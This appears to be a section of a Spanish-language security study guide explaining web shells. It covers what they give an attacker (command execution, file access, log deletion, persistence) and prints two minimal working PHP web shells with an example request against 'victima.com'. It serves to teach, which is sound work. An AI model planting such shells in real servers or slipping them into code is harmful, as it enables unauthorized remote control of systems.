 
[🔼](#índice)

---

## **64. WebShells**

### 🔍 1. ¿Qué es una WebShell?

Una **WebShell** es un script malicioso (PHP, ASP, JSP, etc.) que un atacante sube a un servidor vulnerable para obtener **una consola remota tipo terminal** a través del navegador web.

✅ Una WebShell da acceso total o parcial al **sistema de archivos**, comandos del sistema, y en algunos casos, a bases de datos.

---

#### 📌 Imagina:

Subes este archivo a un servidor vulnerable:

```php
<?php system($_GET['cmd']); ?>
```

Luego accedes con el navegador:

```
http://victima.com/shell.php?cmd=whoami
```

✅ Resultado: ejecuta el comando `whoami` en el servidor y te devuelve el resultado.

---

### 🛠️ 2. ¿Para qué sirve una WebShell?

- 🧠 **Ejecutar comandos del sistema** (como si tuvieras consola)
- 📂 **Ver archivos del servidor**
- ✏️ **Modificar código o subir malware**
- 💉 **Pivotar para escalar privilegios**
- 🗑️ **Borrar logs o rastros**
- 📡 **Mantener acceso persistente**

---

### 📂 3. Ejemplos simples de WebShells

#### ✅ A. WebShell básica en PHP

```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

